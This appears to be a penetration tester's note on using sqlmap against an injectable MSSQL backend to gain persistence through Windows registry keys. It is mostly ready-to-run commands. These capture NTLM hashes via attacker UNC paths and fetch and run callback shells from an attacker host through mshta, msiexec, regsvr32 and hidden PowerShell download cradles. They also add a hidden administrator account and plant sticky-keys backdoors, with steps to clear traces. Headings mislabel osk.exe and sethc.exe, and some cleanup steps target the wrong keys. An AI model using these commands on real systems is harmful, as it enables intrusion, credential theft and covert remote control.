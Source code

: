 # Windows Registry

Search Tag(s): #sqlmap #initial-foothold #persistence

## 01 - Create Registry Values

TODO: Provide  a scenario if it's not possible to reboot the windows machine. An attacker can use **Denial of Service (DoS)** attack vector to crash the machine then it reboots to get a callback shell.

## 1.1 - Conditions

TODO: Gather conditions to takeover of the machine in the MSSQL backend

TODO: Check other world writeable folders
- `C:\Windows\Tasks\`
- `C:\Users\Public\`

1. The DBMS backend must be MSSQL

## 1.2 - Grab NTLM hashes

- Run [[Responder|Responder]] to grab the NTLM hashes

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="cmd.exe /c dir \\\\<attacker_IP>\\snare.txt"

$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="cmd.exe /c net view \\\\<attacker_IP>\\snare.txt"

$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

## 1.3 - Execute callback shell in disk

- **Upload a callback shell in the windows temporary directory.**

```
$ sqlmap -u "<URL>" --file-write=/path/to/shell.exe --file-dest="C:\Windows\Temp\shell.exe"

$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="C:\Windows\Temp\shell.exe"
```

- **Then confirm the registry value is updated successfully.**

```
$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

- **Cleanup the registry value and confirm it's deleted.**

```
$ sqlmap -u "<URL>" --reg-del="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"

$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

## 1.4 - Execute callback shell in memory (fileless)

### 1.4.1 - Host a webserver to stage the implant

- **Mshta**

```
$ sqlmap -u "<URL>" --reg-value="Updater" --reg-data="mshta.exe http://<IP>/shell.hta"
```

- **Msiexec**

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="msiexec.exe /q /i http://<attacker_IP>/shell.msi"
```

- **Regsvr32**

```
$ sqlmap -u "<URL>"--reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="regsvr32.exe /s /n /u /i:http://<attacker_IP>/shell.sct scrobj.dll"
```

- **Powershell**

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="powershell.exe -nop -NonI -Nologo -w hidden -c \"IEX ((new-object net.webclient).downloadstring(\'http://<IP>/shell.ps1\'))\""
```

### 1.4.2 - Directly execute the callback shell

- **Powershell**

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="conhost.exe --headless powershell.exe -nop -NonI -Nologo -w hidden -e <base64_payload>"
```

- **Python**

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="python.exe -c <payload>"
```

- **Cleanup the registry value and confirm it's deleted.**

```
$ sqlmap -u "<URL>" --reg-del="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"

$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

## 1.5 - Living off the Land

### 1.5.1 - Remote Desktop Protocol via Stick Keys Command Prompt

- **We must first take note of the registry values to clear traces afterwards**

```
$ sqlmap -u "<URL>" --reg-read="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value="Debugger"
```

- **Add a terminal prompt in the registry value.**

```
$ sqlmap -u "<URL>" --reg-add="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value="Debugger" --reg-type=REG_SZ --reg-data="cmd.exe"

$ sqlmap -u "<URL>" --reg-add="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value="Debugger" --reg-type=REG_SZ --reg-data="powershell.exe"
```

- **Create user account (Optional). Refer to this [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/09 - Maintaining Access/Persistence/Windows/Host Persistence/Remote Login/Create User/Create User|link]].**

```
$ sqlmap -u "<URL>" --reg-add="HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="cmd.exe /c net user webadmin Passw0rd123\! /add /y & net localgroup Administrators webadmin /add /y & net localgroup \"Remote Desktop Users\" webadmin /add /y"
```

- **Then confirm the modified changes.**

```
$ sqlmap -u "<URL>" --reg-read "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value="Debugger"

$ sqlmap -u "<URL>" --reg-read="HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

- **Cleanup the registry value and double check to confirm.**

```
$ sqlmap -u "<URL>" -p <parameter> --cookie="<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-del="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"

$ sqlmap -u "<URL>" -p <parameter> --cookie="<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

### 1.5.2 - Remote Desktop Protocol via Accessibility On-Screen Keyboard Command Prompt

- **We must first take note of the registry values to clear traces afterwards**

```
$ sqlmap -u "<URL>" --reg-read="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" --reg-value="Debugger"
```

- **Add a terminal prompt in the registry value.**

```
$ sqlmap -u "<URL>" --reg-add="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" --reg-value="Debugger" --reg-type=REG_SZ --reg-data="cmd.exe"

$ sqlmap -u "<URL>" --reg-add="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" --reg-value="Debugger" --reg-type=REG_SZ --reg-data="powershell.exe"
```

- **Then confirm the modified changes.**

```
$ sqlmap -u "<URL>" --reg-read "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" --reg-value="Debugger"

$ sqlmap -u "<URL>" --reg-read="HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

- **Cleanup the registry value and double check to confirm.**

```
$ sqlmap -u "<URL>" --reg-del="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"

$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

---
## References

- [[Registry Key References]]

- [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/09 - Maintaining Access/Persistence/Windows/Host Persistence/Remote Login/Third-Party Programs#^1f2bd0|Windows RDP Remote Login]]

- [Pwning a shell via MSSQL DBMS](https://owasp.org/www-chapter-ghana/assets/slides/Pwning_a_shell_via_MSSQL_DBMS.pdf)

- [Executing OS Commands Through SQL Server](https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#sqlserver)